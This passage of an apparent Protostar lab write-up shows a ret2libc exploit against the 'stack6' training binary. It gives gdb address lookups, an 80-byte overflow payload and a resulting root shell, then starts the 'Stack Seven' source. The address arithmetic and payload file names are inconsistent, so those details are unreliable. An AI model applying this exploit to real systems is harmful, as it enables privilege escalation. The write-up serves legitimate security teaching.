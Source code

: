         libc.so.6 => /lib/libc.so.6 (0xb7e99000)
        /lib/ld-linux.so.2 (0xb7fe5000)
# Getting /bin/sh address
strings -a -t x /lib/libc.so.6 | grep /bin/sh
 11f3bf /bin/sh

# Libc offset
python -c 'offset = 0xb7fe4000 + 0x11f3bf; print hex(offset)'
0xb7fb63bf
# Exit address
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

# System address
(gdb) p system
$2 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

# Alternate way for /bin/sh address
dump esp with a load of bytes
(gdb) x/4000s $esp
...
0xbfffff80:	 "SHELL=/bin/sh"
...
Add 6 bytes to just get the following;
(gdb) x/s 0xbfffff80+6
0xbfffff86:	 "/bin/sh"


Values;
Address of system = 0xb7ecffb0
Address of exit = 0xb7ec60c0
Address of /bin/sh = 0xbfffff86 
offset = 80 

'A'* offset + system + exit + /bin/sh
python -c "print 'A'*80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\x86\xff\xff\xbf'" > /tmp/stack6
$ (cat /tmp/stack6.pwn2; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)

{% endhighlight %}
# Stack Seven
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);